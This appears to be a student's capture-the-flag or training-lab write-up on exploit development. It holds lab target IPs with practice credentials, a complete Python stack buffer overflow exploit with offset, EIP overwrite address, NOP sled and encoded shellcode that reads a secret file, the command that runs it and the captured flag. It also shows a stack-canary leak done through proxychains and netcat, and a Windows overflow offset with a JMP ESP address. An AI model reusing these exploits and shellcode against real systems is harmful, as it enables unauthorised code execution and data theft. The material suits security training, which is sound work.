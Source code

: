 # Exploit Development Writeup

Movement:
```
>Jump
->T1: 192.168.28.111
->T2: 192.168.28.105

>Jump
->donovian_grey_host
-->T3: 192.168.150.245
```

## Targets

T1:
```
Hostname: Donovian_Webserver
IP: 192.168.28.111
OS: CentOS
Creds: comrade :: StudentWebExploitPassword
Last Known SSH Port: 2222
Action: Exploit binary.
```

T2:
```
Hostname: Donovian-Terminal
IP: 192.168.28.105
OS: unknown
Creds: comrade :: StudentReconPassword
Last Known SSH Port: 2222
```

T3:
```
Hostname: unknown
IP: 192.168.150.245
OS: unknown
Creds:unknown
Last Known SSH Port: unknown
PSP: Unknown
Malware: Unknown
Action: Exploit a network service on the machine
```

## ELF Exploitation 1

SIGSEV on long input.
Offset: 72

Start: `0xf7def000`
End:   `0xf7ffe000`

EIP Inject Address: `0xf7f8f9e7`

Shellcode:
```
set CMD "cat /.secret/.verysecret.pdf"

buf =  b""
buf += b"\xdb\xde\xd9\x74\x24\xf4\xba\x95\x77\xe3\x5b\x5e"
buf += b"\x2b\xc9\xb1\x11\x31\x56\x17\x83\xee\xfc\x03\xc3"
buf += b"\x64\x01\xae\x81\x81\x9d\xc8\x07\xf0\x75\xc6\xc4"
buf += b"\x75\x62\x70\x25\xf5\x05\x81\x51\xd6\xb7\xe8\xcf"
buf += b"\xa1\xdb\xb9\xe7\xaf\x1b\x3e\xf7\xac\x7a\x4a\xd7"
buf += b"\x1d\x53\xc1\x72\x01\xd9\x40\x08\xea\x33\xfd\x95"
buf += b"\x86\x32\x72\x30\x04\xb7\x11\xce\xe4\x47\xbe\x4c"
buf += b"\xf9\xf0\x6d\x19\x18\x33\x11"
```

Exploit:
```python
pad_len = 76
pad = "A"*pad_len

eip_inject = "\x51\x1b\xdf\xf7"

nop = "\x90"*10

buf =  b""
buf += b"\xdb\xde\xd9\x74\x24\xf4\xba\x95\x77\xe3\x5b\x5e"
buf += b"\x2b\xc9\xb1\x11\x31\x56\x17\x83\xee\xfc\x03\xc3"
buf += b"\x64\x01\xae\x81\x81\x9d\xc8\x07\xf0\x75\xc6\xc4"
buf += b"\x75\x62\x70\x25\xf5\x05\x81\x51\xd6\xb7\xe8\xcf"
buf += b"\xa1\xdb\xb9\xe7\xaf\x1b\x3e\xf7\xac\x7a\x4a\xd7"
buf += b"\x1d\x53\xc1\x72\x01\xd9\x40\x08\xea\x33\xfd\x95"
buf += b"\x86\x32\x72\x30\x04\xb7\x11\xce\xe4\x47\xbe\x4c"
buf += b"\xf9\xf0\x6d\x19\x18\x33\x11"

print(pad + eip_inject + nop + buf)
```

Execute:
```
python /tmp/tmp.OIOo0zgNZY/exp.py | sudo ./inventory.exe

Gag4V9t7qluE8sJM2ajI
```

## ELF Exploitation 2

Starts a server on port 1215
```
comrade@ftp:/.hidden$ ./inventory2.exe
^Z
[1]+  Stopped                 ./inventory2.exe
comrade@ftp:/.hidden$ ss -antlp

LISTEN0      3              0.0.0.0:1215        0.0.0.0:*     users:(("inventory2.exe",pid=31634,fd=3))
```

Connecting to the server and writing long output results
in stack smashing.

Leak Canary:
```
student@lin-ops:~/Desktop/Exploit_Dev$ python -c 'print("A"*72)' | proxychains nc 192.168.28.105 1215 > out.txt
|S-chain|-<>-127.0.0.1:9050-<><>-192.168.28.105:1215-<><>-OK
student@lin-ops:~/Desktop/Exploit_Dev$ ls
elf_2.py  exp.py  exp_elf1.py  func  out.txt  peda-session-func.txt
student@lin-ops:~/Desktop/Exploit_Dev$ xxd out.txt
00000000: 5072 6f78 7943 6861 696e 732d 332e 3120  ProxyChains-3.1
00000010: 2868 7474 703a 2f2f 7072 6f78 7963 6861  (http://proxycha
00000020: 696e 732e 7366 2e6e 6574 290a 506c 6561  ins.sf.net).Plea
00000030: 7365 2065 6e74 6572 2079 6f75 7220 6d65  se enter your me
00000040: 7373 6167 652e 0a00 0001 4141 4141 4141  ssage.....AAAAAA
00000050: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000060: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000070: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000080: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000090: 4141 0a47 2322 61cd 43f5                 AA.G#"a.C.
```

Canary:
```
35 c36b 9bc2 0d95
```

## Windows

Offset: 2002
JMP ESP: 0x625012A0

Nmap scan report for 192.168.150.245
Host is up (0.0022s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
9999/tcp open  abyss

bOoapJhKZKk554o0vF0H

